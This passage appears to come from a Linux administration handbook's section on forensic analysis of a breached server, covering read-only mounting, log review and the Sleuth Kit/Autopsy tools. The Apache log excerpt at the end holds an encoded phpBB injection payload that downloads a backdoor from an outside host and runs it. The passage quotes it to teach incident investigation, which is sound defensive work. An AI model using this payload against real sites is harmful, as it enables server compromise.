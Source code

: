 Now that the service has been restored, it is time to have a closer look
at the disk images of the compromised system in order to understand the
attack vector. When mounting these images, care should be taken to use
the `ro,nodev,noexec,noatime` options so as to avoid changing the
contents (including timestamps of access to files) or running
compromised programs by mistake.

Retracing an attack scenario usually involves looking for everything
that was modified and executed:

-   `.bash_history` files often provide for a very interesting read;

-   so does listing files that were recently created, modified or
    accessed;

-   the `strings` command helps identifying programs installed by the
    attacker, by extracting text strings from a binary;

-   the log files in `/var/log/` often allow reconstructing a chronology
    of events;

-   special-purpose tools also allow restoring the contents of
    potentially deleted files, including log files that attackers often
    delete.

Some of these operations can be made easier with specialized software.
In particular, the *sleuthkit* package provides many tools to analyze a
filesystem. Their use is made easier by the *Autopsy Forensic Browser*
graphical interface (in the *autopsy* package).

Autopsy Forensic Browser
The Sleuth Kit
Reconstituting the Attack Scenario {#sect.reconstituting-the-attack-scenario}
----------------------------------

All the elements collected during the analysis should fit together like
pieces in a jigsaw puzzle; the creation of the first suspect files is
often correlated with logs proving the breach. A real-world example
should be more explicit than long theoretical ramblings.

The following log is an extract from an Apache `access.log`:

    www.falcot.com 200.58.141.84 - - [27/Nov/2004:13:33:34 +0100] "GET /phpbb/viewtopic.php?t=10&highlight=%2527%252esystem(chr(99)%252echr(100)%252echr(32)%252echr(47)%252echr(116)%252echr(109)%252echr(112)%252echr(59)%252echr(32)%252echr(119)%252echr(103)%252echr(101)%252echr(116)%252echr(32)%252echr(103)%252echr(97)%252echr(98)%252echr(114)%252echr(121)%252echr(107)%252echr(46)%252echr(97)%252echr(108)%252echr(116)%252echr(101)%252echr(114)%252echr(118)%252echr(105)%252echr(115)%252echr(116)%252echr(97)%252echr(46)%252echr(111)%252echr(114)%252echr(103)%252echr(47)%252echr(98)%252echr(100)%252echr(32)%252echr(124)%252echr(124)%252echr(32)%252echr(99)%252echr(117)%252echr(114)%252echr(108)%252echr(32)%252echr(103)%252echr(97)%252echr(98)%252echr(114)%252echr(121)%252echr(107)%252echr(46)%252echr(97)%252echr(108)%252echr(116)%252echr(101)%252echr(114)%252echr(118)%252echr(105)%252echr(115)%252echr(116)%252echr(97)%252echr(46)%252echr(111)%252echr(114)%252echr(103)%252echr(47)%252echr(98)%252echr(100)%252echr(32)%252echr(45)%252echr(111)%252echr(32)%252echr(98)%252echr(100)%252echr(59)%252echr(32)%252echr(99)%252echr(104)%252echr(109)%252echr(111)%252echr(100)%252echr(32)%252echr(43)%252echr(120)%252echr(32)%252echr(98)%252echr(100)%252echr(59)%252echr(32)%252echr(46)%252echr(47)%252echr(98)%252echr(100)%252echr(32)%252echr(38))%252e%2527 HTTP/1.1" 200 27969 "-" "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)"
          